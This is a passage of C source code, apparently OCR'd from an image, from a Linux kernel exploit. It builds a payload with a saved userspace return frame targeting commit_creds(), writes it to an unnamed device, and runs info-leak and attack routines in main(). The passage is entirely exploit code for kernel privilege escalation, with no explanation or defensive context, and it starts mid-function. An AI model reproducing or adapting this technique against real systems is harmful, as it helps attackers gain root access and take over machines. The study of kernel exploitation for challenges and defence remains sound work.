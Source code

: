 ```c
	payload[27] = (unsigned long)_get_commit_creds; //IP, userspace function to get commit_creds() from eax
	payload[28] = us_cs;
	payload[29] = us_rflags;
	payload[30] = us_rsp;
	payload[31] = us_ss;

	printf ("[DEBUG] try to get address of commit_creds()\n");
	write (g_fd, payload, sizeof (payload));
}

void attack ()
{
	get_commit_creds ();
}

int main ()
{
	save_userspace ();

	opendev ();
	if (g_fd <= 0)
	{
		printf ("[ERROR] failed to open device %s\n", DEV);

		return -1;
	}

	leakinfo ();
	
	attack ();
	close (g_fd);

	return 0;
}
```

